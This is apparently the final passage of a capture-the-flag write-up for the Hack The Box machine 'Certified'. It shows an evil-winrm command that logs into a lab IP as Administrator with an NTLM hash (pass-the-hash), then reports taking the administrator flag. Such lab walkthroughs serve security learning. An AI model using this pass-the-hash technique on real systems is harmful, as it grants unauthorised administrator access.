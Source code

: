 ![image.png](/assets/images/Certified_HTB/image%2028.png)

Now lets Winrm into the box as an **administrator**.

```bash
evil-winrm -i 10.129.231.186 -u Administrator -H 0d5b49608bbce1751f708748f67e2d34
```

![image.png](/assets/images/Certified_HTB/image%2029.png)

Grabbing the **administrator** flag and submitting it.

Rooted!!

![image.png](/assets/images/Certified_HTB/image%2030.png)

Thanks for reading.
